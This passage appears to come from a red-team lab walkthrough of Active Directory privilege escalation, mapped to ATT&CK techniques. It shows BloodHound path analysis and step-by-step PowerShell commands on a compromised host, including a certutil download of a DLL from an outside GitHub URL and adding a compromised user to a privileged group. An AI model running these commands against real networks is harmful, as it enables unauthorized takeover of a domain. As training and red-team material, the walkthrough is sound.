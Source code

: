 ```bash
[KALI:bash] sudo apt install -y bloodhound
[KALI:bash] sudo neo4j start
```

Now you will need to go to `http://localhost:7474` in your browser, login as `neo4j` user with `neo4j` password and set the new password, for example `P@ssw0rd`.

Let us now open Bloodhound (use the newly-set `neo4j` credentials to connect to the database) and import the ZIP file into it.

We mark our AD user as compromised and then we find a path from the compromised principal to Domain Admins

![Bloodhound Domain Admins privilege escalation path](images/bloodhound.png)

We can see that our compromised user is a member of `ServerAdmins` group which has `GenericWrite` permissions over the `ITSupport` group which in turn has `AllExtendedRights` over `Administrator` who is Domain Admin.

### AD Privilege Escalation

Let's go back to our compromised system with a compromised AD user and follow that privilege escalation path to become become Domain Admin.

In order to convienently run Active Directory commands, let's import Active Directory PowerShell module.
Usually it comes with RSAT AD tools, but we can also get it directly from the Microsoft DLL. Let's download it with `certutil` and import it

**Step 2.7**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/PowerShellActiveDirectory.dll C:\Temp\a.dll
[ITSERVER:PowerShell] Import-Module C:\Temp\a.dll
```
ATT&CK Techniques: `T1105`

`GenericWrite` persmissions that we have on our compormised account mean that we can add ourselves to the `ITSupport` group. Let's do that!

**Step 2.8**
```PowerShell
[ITSERVER:PowerShell] Add-ADGroupMember -Identity "ITSupport" -Members "billh"
```
ATT&CK Techniques: `T1098.007`
